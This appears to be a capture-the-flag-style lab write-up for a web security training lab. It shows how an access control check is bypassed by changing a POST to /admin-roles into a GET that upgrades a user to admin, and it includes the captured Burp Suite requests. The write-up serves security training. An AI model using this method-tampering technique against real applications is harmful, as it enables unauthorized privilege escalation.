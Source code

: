 > Finding: The server **fails to enforce authorization on GET requests** to `/admin-roles`, treating them as valid upgrade actions.

---

## Reproduction steps  

1. Log in as `wiener:peter`.  
2. Promote `carlos` via the admin panel → **intercept POST request** to `/admin-roles`.  
3. Send to **Burp Repeater**.  
4. Right-click → **"Change request method"** → converts to:  
   `GET /admin-roles?username=carlos&action=upgrade`  
5. Send GET request → `carlos` promoted.  
6. Verify via lab completion.

**Captured Burp Suite HTTP interactions:**

**Request 1: Legitimate GET request (successful upgrade via method tampering)**
```
GET /admin-roles?username=wiener&action=upgrade HTTP/2
Host: 0a8e00ae0301ed8180adb71f00830051.web-security-academy.net
Cookie: session=5jnXJ46LPzspHCT01H44ihXRAMfdu
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="141", "Not=A?Brand";v="8", "Chromium";v="141"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://0a8e00ae0301ed8180adb71f00830051.web-security-academy.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8e00ae0301ed8180adb71f00830051.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
```

**Request 2: Invalid method test (POSTX → 400 error)**
```
POSTX /admin-roles HTTP/2
Host: 0a8e00ae0301ed8180adb71f00830051.web-security-academy.net
Cookie: session=5jnXJ46LPzspHCT01H44ihXRAMfdu
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "Not=A?Brand";v="24", "Chromium";v="140"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Origin: https://0a8e00ae0301ed8180adb71f00830051.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8e00ae0301ed8180adb71f00830051.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
```